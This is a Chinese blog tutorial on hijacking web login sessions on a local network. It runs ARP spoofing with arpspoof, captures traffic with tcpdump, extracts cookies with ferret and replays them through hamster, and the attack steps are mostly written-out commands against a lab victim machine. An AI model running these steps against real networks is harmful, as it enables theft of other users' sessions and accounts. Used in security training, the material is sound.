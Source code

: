title: kali利用Arpspoof、tcpdump、ferret和hamster劫持登录会话
date: 2015-03-25 15:08:23
tags: 
- kali
- 渗透测试
categories: 渗透测试
---
上篇博客讲解了ARP欺骗的原理<http://huirong.github.io/2015/03/25/arp/>，不懂的可以自行google，网上有很多教程。
这次讲解利用ARP欺骗劫持登录会话
<!-- more -->
# I、环境
## ① 拓扑环境
- 攻击机：Kali Linux IP：192.168.1.118
- 受害机：Win7   IP：192.168.1.131
- 网关IP：192.168.1.1
- 攻击工具：arpspoof、tcpdump、ferret、hamster
前三款工具已经集成在Kali中了，ferret需要手动安装
## ② 安装ferret
首先kali 64bit默认不安装ferret，需要自己解决。我之前是apt-get install ferret安装的，执行后会弹出一个对话框，也无法生成hamster.txt，费解多时，因为此ferret非我们需要的ferret。
1. 修改source.list中的内容，如下所示：
```
## Regular repositories
deb http://http.kali.org/kali kali main non-free contrib
deb http://security.kali.org/kali-security kali/updates main contrib non-free
## Source repositories
deb-src http://http.kali.org/kali kali main non-free contrib
deb-src http://security.kali.org/kali-security kali/updates main contrib non-free
```
2. 添加对32为的支持
```
dpkg --add-architecture i386
```
3. 更新
```
apt-get clean && apt-get update && apt-get upgrade -y && apt-get dist-upgrade -y
```
4. 先删除原来的ferret
```
aptitude remove ferret
```
5. 安装我们需要的feret
```
aptitude install ferret-sidejack:i386
```
# II、开始攻击
## ① 打开路由转发
```
echo "1" > /proc/sys/net/ipv4/ip_forward
```
linux下开启路由转发功能，可以让linux机器作为一个路由器来工作，将受害主机的数据包发送给网关。如果不开启此功能，受害主机的将会断网，这就是ARP断网攻击。
系统重启后，恢复原来的配置，只是临时生效
## ② ARP欺骗
```
arpspoof -i wlan0 -t 192.168.1.131 192.168.1.1
```
欺骗受害主机192.168.1.131，网关192.168.1.1的MAC地址是攻击机的MAC地址，那么在局域网内，受害主机发送给网关的数据包，都会发送给攻击机
![](https://ww3.sinaimg.cn/large/005CA6ZCjw1eqi3adliqnj30ki0duwi5.jpg)
## ③ 抓取本地数据包
重新打开一个终端，输入：
```
tcpdump -i wlan0 -w hello.cap
```
![](https://ww4.sinaimg.cn/large/005CA6ZCjw1eqi2xbwlwwj30kf0dq75p.jpg)
将抓取到的数据保存到hello.cap文件中
## ④ 耐心等待。。。
此时，需要等待受害主机登录摸个网站，或刷新已经登录过的页面
相当于受害在想网关发送携带了cookie的数据包，我们就是要劫持这个cookie
当刷新完毕后，就可以结束 arpspoof 和 tcpdump
## ⑤ 使用ferret分析抓取的数据包
```
ferret -r hello.cap
```
![](https://ww4.sinaimg.cn/large/005CA6ZCjw1eqi3mc4oycj30kh0dodjl.jpg)
查看根目录，会发现自动生成了hamster.txt文件
## ⑥ hamster架设代理，登录会话
在终端输入
```
hamster
```
![](https://ww4.sinaimg.cn/large/005CA6ZCjw1eqi3mc4oycj30kh0dodjl.jpg)
设置浏览器代理
![](https://ww1.sinaimg.cn/large/005CA6ZCjw1eqi2yqbc8mj30f40iadhm.jpg)
打开hamster
![](https://ww2.sinaimg.cn/large/005CA6ZCjw1eqi2z18sdfj311x0dqtch.jpg)
点击192.168.1.131
左边就是获取的cookie信息，找到合适的，就可以看到受害者的登录信息
![](https://ww3.sinaimg.cn/large/005CA6ZCjw1eqi3096wd6j30m807sdi2.jpg)

OK，攻击完毕啦，本教程仅做学习用途~~~~~~~~~
# III、参考文献
[局域网安全 利用ARP欺骗劫持Cookie](http://www.it165.net/safe/html/201501/1025.html)
[linux开启路由转发功能](http://yuangeqingtian.blog.51cto.com/6994701/1302773)
